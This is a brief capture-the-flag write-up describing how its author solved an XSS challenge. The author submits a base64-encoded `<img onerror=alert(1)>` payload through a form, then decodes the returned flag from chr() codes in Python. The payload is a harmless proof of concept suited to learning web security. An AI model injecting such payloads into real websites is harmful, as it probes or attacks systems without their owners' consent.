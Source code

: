 # 7 - now that's xss

## [Come Back to README](https://github.com/xProsek720/MSHP_CTF_2023_WriteUp/blob/main/README.md)

## Solve

That challange took me sometime, because it's my first succed xss

![ctf](https://github.com/xProsek720/MSHP_CTF_2023_WriteUp/blob/main/media/7/1.png)

That page looked like that

![ctf](https://github.com/xProsek720/MSHP_CTF_2023_WriteUp/blob/main/media/7/2.png)

and here was form for payload

![ctf](https://github.com/xProsek720/MSHP_CTF_2023_WriteUp/blob/main/media/7/3.png)

```
<img src="x" onerror = "alert(1)">
```

but encoded in base64

```
PGltZyBzcmM9ImZvbyIgb25lcnJvcj0iYWxlcnQoMSkiPg==
```

i've recieved that flag and decrypted that in python:

```
Flag: chr(84)||chr(86)||chr(78)||chr(73)||chr(85)||chr(70)||chr(57)||chr(55)||chr(81)||chr(71)||chr(89)||chr(107)||chr(81)||chr(69)||chr(119)||chr(122)||chr(78)||chr(69)||chr(100)||chr(107)||chr(83)||chr(68)||chr(70)||chr(53)||chr(99)||chr(107)||chr(108)||chr(52)||chr(102)||chr(81)||chr(61)||chr(61)
```

To get that I've used python and PyCharm ```Ctrl + R``` and replaced  ```|| -> , ``` 

```
print(chr(84), chr(86), chr(78), chr(73), chr(85), chr(70), chr(57), chr(55), chr(81), chr(71), chr(89), chr(107), chr(81), chr(69), chr(119), chr(122), chr(78), chr(69), chr(100), chr(107), chr(83), chr(68), chr(70), chr(53), chr(99), chr(107), chr(108), chr(52), chr(102), chr(81), chr(61), chr(61))
```

and then recieved flag base64 encoded so I've decoded it and reported it to the bot:

![ctf](https://github.com/xProsek720/MSHP_CTF_2023_WriteUp/blob/main/media/7/4.png)

## [Come Back to README](https://github.com/xProsek720/MSHP_CTF_2023_WriteUp/blob/main/README.md)